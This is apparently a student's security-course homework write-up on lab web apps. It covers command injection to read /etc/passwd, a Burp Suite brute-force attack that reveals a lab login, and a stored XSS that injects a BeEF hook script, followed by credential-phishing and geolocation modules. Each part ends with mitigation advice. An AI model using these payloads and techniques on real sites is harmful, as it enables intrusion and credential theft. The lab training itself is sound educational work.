 # Unit 15 Homework - Web-Vulnerabilities and Hardening

## Web Apllication #1
### Command Injection
#### Exploit
Using the dwva, use command injection to view the passwd and hosts file in /etc

![etc/passwd](Images/etc-passwd.PNG)
![etc/hosts](Images/etc-hosts.PNG)

#### Mitigation
The best way to avoid this vulnerability is to not allow the execution of OS commands. However, when this is not possible, properly configured server side input validation will deny access to this vulnerability.

## Web Apllication #2
### Brute Force

#### Investigation
Use the web application tool **Burp Suite**, specifically the **Burp Suite Intruder** feature, to determine if any of the administrator accounts are vulnerable to a brute force attack on this web application. 

![brute-force](Images/Brute-force.PNG)

`user: tonystark`
`Password: "I am Iron Man"`

#### Mitigation
There are a number of mitigation methods to prevent brute force attacks, depending on what type of asset you are trying to defend. Two common and very effective methods are multi-factor authentication, and to lock the account after x number of failed attempts. Another possible method to prevent a brute force attack without locking the account to it's rightful owner is to prevent further attempts based on an IP address after x failed attempts, however this could easily be bypassed if the attacker is using a botnet with many ip addresses for it's bots.

## Web Application #3
### Where's the BeEF?

#### Exploit
 You are tasked with using a stored XSS attack to inject a BeEF hook into Replicants' main website.

   - Task details:
     - The page you will test is the Replicants Stored XSS application which was used the first day of this unit: `http://192.168.13.25/vulnerabilities/xss_s/`
     - The BeEF hook, which was returned after running the `sudo beef` command was: `http://127.0.0.1:3000/hook.js`
     - The payload to inject with this BeEF hook is: `<script src="http://127.0.0.1:3000/hook.js"></script>`

   -  When you attempt to inject this payload,  you will encounter a client-side limitation that will not allow you to enter the whole payload. You will need to find away around this limitation.    
      
      ![xss-post](Images/xss-post-script.PNG)
    
   - Once you are able to hook into Replicants website, attempt a couple BeEF exploits. Some that work well include:
     
     - Social Engineering >> Pretty Theft    
       ![Petty theft](Images/xxs-facebook.PNG)

   ![BeEF facebook credentials](Images/xxs-BeEF-facebook.PNG)

     
     - Social Engineering >> Fake Notification Bar
     ![xss fake notification bar](Images/xxs-popup.PNG)
     ![BeEF confirmation of fake notification bar](Images/xxs-BeEF-popup.PNG)
     
     - Host >> Get Geolocation (Third Party)
     ![BeEF GeoLocation](Images/xxs-BeEF-GeoLocation.PNG)
     
#### Mitigation
To mitigate against xss attacks, all user input should be cleansed through the use of escaping, filtering and validation. This can be done on the client side, and **should always** be done on the server side as client side strategies won't be effective against the use of a terminal window to access your website using commands such as cURL.